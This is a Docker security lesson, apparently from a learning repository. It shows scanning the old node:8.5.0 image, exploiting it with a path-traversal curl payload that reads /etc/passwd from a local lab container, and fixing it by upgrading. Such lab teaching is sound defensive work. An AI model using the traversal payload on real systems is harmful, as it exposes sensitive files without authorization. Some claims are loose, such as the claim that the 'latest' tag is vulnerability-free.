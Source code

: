 ## Docker Image Scanning

Docker Image scanning allows development teams to scan for vulnerabilities in their Docker images. Docker has a built-in scan command that runs on the Snyk engine. Snyk searches its vast vulnerability database to find any vulnerabilities that could be present in the given image. Scanning your images gives you the time to fix potential vulnerabilities before adversaries have the opportunity to exploit your containers. It is important for teams to regularly scan their images to be aware of any public vulnerabilities that may be hiding in their images.

In this lesson, we will be reviewing a scan of a widely used docker image, exploiting a vulnerability of that image, and remediating that vulnerability.


### Scanning
The `node:8.5.0` image is one of the most popular images on Docker Hub with over one billion pulls. The node image with the 8.5.0 tag has an [Insufficient Validation vulnerability](https://security.snyk.io/vuln/SNYK-UPSTREAM-NODE-72352) which could allow a malicious user access to a running container without validation. Docker Scan tested over 300 dependencies in the image and found over 1,000 vulnerabilities, including the previously mentioned Insufficient Validation vulnerability.


NOTE: docker scan is only available if you are logged in through Docker Hub. 

once you [login to Docker Hub](https://github.com/wadexu007/learning_by_doing/tree/main/Docker/demo#docker-hub) on your own machine then run the following command 

```
docker scan node:8.5.0
```


### Exploiting the Vulnerability
let us try to exploit this vulnerability
```
FROM node:8.5.0-slim

WORKDIR /usr/src/app

COPY package*.json ./
COPY server.js ./

RUN npm install

EXPOSE 80

CMD [ "npm", "start" ]
```

We can run the vulnerable node container. Type the following command:
```
docker run -d -p 8080:80 --name node_vulnerable vulnerable_node_image
```

Send the payload to the container by typing the following command into the terminal:

```
curl "http://localhost:8080/public/%2e%2e/%2e%2e/%2e%2e/foo/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

You will see the output of the /etc/passwd file including all the users and passwords with access to this container. This payload can be changed to view other files within the container that could hold sensitive information.


### Defense
Now, we will research a node container that does not contain this vulnerability. Visit the `node` image on [Docker Hub](https://hub.docker.com/_/node), and we can see that the node container is up to version 16.xx now. Our vulnerable node version 8.5 is very old.

To fix this issue, we will change our node version to something more recent, which will have security patches applied. In the Dockerfile, we will update the node version to `node:16-slim`. Updating the version number could change the functionality, so testing will be required. Also, it is not guaranteed that the most recent version contains zero vulnerabilities, so a scan should be done as well: `docker scan node:16-slim`.


### Conclusion
This example serves to show just one vulnerability that could be hiding in any of your Docker images. Depending on your environment, there could be hundreds of Docker images to scan. Images with vulnerabilities will need to be assessed for their risk, and possibly updated to a newer version. One strategy is to use the `latest` tag for an image which will always pull the most updated, vulnerable-free version when building an image. However, this strategy is risky because it could break the functionality of your application. To check that your images do not contain vulnerabilities, it is important to schedule scans on all of your images and have a plan when a scan does return a vulnerability.

<br>